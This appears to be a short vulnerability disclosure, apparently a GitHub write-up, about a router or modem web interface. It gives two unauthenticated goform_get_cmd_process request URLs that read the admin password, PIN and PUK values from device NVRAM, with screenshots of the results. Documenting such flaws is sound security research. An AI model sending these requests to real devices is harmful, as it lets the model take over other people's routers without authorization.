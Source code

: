 To perform this attack you may need to set the devmode to 6 if it is not by default (which I beleive it is) as seen below.          

![image](https://user-images.githubusercontent.com/25066959/208161200-d0be214e-ab70-4853-b68b-d9af9d21e5ec.png)

Once this is done it is possible to read arbitrary values from the configuration table in the device NVRAM.          

A request like the following will read the value of the admin_Password field. With this request you will be able to retreive the administrator password for the device unauthenticated.         

This can be viewed in the broswer or burp for instance, as seen below. 

```
http://192.168.199.1/goform/goform_get_cmd_process?cmd=admin_Password&multi_data=1
```
![image](https://user-images.githubusercontent.com/25066959/208161010-ddce8cc0-7ab4-40c9-83db-cfbf57907631.png)


![image](https://user-images.githubusercontent.com/25066959/208161155-dd37a5bb-87c2-4d70-9e8a-3f1b821c23e3.png)

```
http://192.168.199.1/goform/goform_get_cmd_process?isTest=false&cmd=modem_main_state,puknumber,
pinnumber,psw_fail_num_str,login_lock_time,admin_user,admin_Password&multi_data=1&_=0
```
![image](https://user-images.githubusercontent.com/25066959/208161411-67c7d073-375f-48e1-84f3-9f6264a0b765.png)


![image](https://user-images.githubusercontent.com/25066959/208161356-7c9103ce-5543-4b89-9ebf-f84282c2d26f.png)

